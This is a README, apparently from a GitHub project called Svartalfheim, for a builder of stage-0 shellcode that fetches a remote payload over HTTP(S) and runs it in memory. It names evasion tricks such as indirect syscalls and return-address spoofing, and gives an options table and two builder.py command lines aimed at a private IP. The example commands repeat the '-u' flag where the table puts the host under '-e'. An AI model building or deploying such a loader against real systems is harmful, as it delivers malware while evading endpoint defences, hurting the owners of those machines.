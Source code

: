 # Svartalfheim

Stage 0 Shellcode to Download a Remote Payload and Execute it in Memory

The Nt API calls ```NtAllocateVirtualMemory``` and ```NtProtectVirtualMemory``` are made using indirect syscalls.

LoadLibraryA and WinHTTP calls are performed with return address spoofing.

# Usage

<table>
  <thead>
    <tr>
      <th>Option</th>
      <th>Description</th>
      <th>Required</th>
      <th>Default Value</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>-e</td>
      <td>Http endpoint</td>
      <td>Yes</td>
      <td></td>
    </tr>
    <tr>
      <td>-u</td>
      <td>Http uri</td>
      <td>Yes</td>
      <td></td>
    </tr>
    <tr>
      <td>-p</td>
      <td>Http port</td>
      <td>Yes</td>
      <td></td>
    </tr>
    <tr>
      <td>-a</td>
      <td>User agent</td>
      <td>No</td>
      <td>Mozilla/5.0 (Windows NT 10.0; Win64; x64)</td>
    </tr>
    <tr>
      <td>-s</td>
      <td>Use TLS</td>
      <td>No</td>
      <td>Empty</td>
    </tr>
     <tr>
      <td>-v</td>
      <td>View shellcode at C format</td>
      <td>No</td>
      <td>Empty</td>
    </tr>
  </tbody>
</table>

Example :
- python3 builder.py -u 10.10.100.121 -u /path/to/shellcode.bin -p 80
- python3 builder.py -u 10.10.100.121 -u /path/to/shellcode.bin -p 443 -s

# Credit

- https://github.com/kyleavery/AceLdr
- https://github.com/realoriginal/titanldr-ng
- https://www.unknowncheats.me/forum/anti-cheat-bypass/268039-x64-return-address-spoofing-source-explanation.html
- https://github.com/trickster0/TartarusGate
